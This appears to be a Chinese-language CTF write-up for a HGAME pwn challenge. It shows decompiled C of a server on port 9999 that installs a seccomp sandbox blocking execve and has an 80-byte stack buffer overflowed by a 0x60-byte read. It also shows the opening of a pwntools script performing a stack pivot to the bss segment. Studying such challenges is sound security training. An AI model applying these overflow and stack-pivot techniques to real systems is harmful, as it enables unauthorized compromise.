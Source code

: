 ```c++
}
```

看不懂也没事,我把这玩意喂给了ai,ai告诉我这个程序会监听端口9999,并且告诉我具体操作逻辑在handler函数里.

```c++
__int64 __fastcall handler(unsigned int a1)
{
  __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = seccomp_init(2147418112LL);
  seccomp_rule_add(v2, 0LL, 59LL, 0LL);
  seccomp_rule_add(v2, 0LL, 322LL, 0LL);
  seccomp_load(v2);
  print(a1, "Some gossip about Vidar here.\n");
  print(a1, "But you'd have to break my vulnerability to tell you.\n");
  print(a1, "侃(锝°兓蠅銉伙健)賵\n");
  print(a1, "Are you ready?Let's go!\n");
  vuln(a1);
  print(a1, &unk_4020F6);
  return 0LL;
}
```

可以看到了设置了沙箱,ban掉了execve的系统调用.

```c++
ssize_t __fastcall vuln(unsigned int a1)
{
  char buf[80]; // [rsp+10h] [rbp-50h] BYREF

  print(a1, &unk_402018);
  print(a1, "That's all.\n");
  print(a1, "Good luck.\n");
  return read(a1, buf, 0x60uLL);
}
```

vuln里面就是个普通的栈溢出,可以溢出0x20字节.



于是我们先构造第一次栈迁移,提供更大的空间.

```python
from pwn import *

context.log_level='debug'
#r=remote("node1.hgame.vidar.club",30837)
r=remote("127.0.0.1",9999)
r.recvuntil(b"Good luck.")
bss_add=0x404800
read_add_0=0x4013D9
read_add=0x401420
r.send(b"a"*0x50+p64(bss_add)+p64(read_add_0))
```
